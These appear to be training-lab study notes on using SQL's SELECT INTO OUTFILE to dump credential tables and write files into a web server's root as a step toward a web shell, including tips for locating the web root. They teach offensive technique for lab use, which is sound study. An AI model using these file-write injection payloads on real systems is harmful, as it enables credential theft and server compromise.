 - The **`SELECT ... INTO OUTFILE`** statement is used to **write query results into a file**.
    
- This feature is commonly used for **exporting data** from database tables.
	
- To use it, we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified.
	
```sql
-- Saves the output of the `users` table into the `/tmp/credentials` file.
SELECT * from users INTO OUTFILE '/tmp/credentials';
```
	
- If we go to the back-end server and `cat` the file, we see that table's content.
	
```shell-session
Whog@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```
	
- It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.
	-
```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```
	
- When we `cat` the file, we see that text.
	
```shell-session
Whog@htb[/htb]$ cat /tmp/test.txt 
this is a test
```
	
```shell-session
Whog@htb[/htb]$ ls -la /tmp/test.txt 
-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt # As we can see , the `test.txt` file was created successfully and is owned by the `mysql` user.
```
	
> [!Tip] Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.
### Writing Files through SQL Injection
- Let's try writing a text file to the webroot and verify if we have write permissions. 
	
- The below query should write `file written successfully!` to the `/var/www/html/proof.txt` file, which we can then access on the web application
	-
```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```
	
>[!Note] To write a web shell, we must know the base web directory for the web server (i.e. web root). One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.
	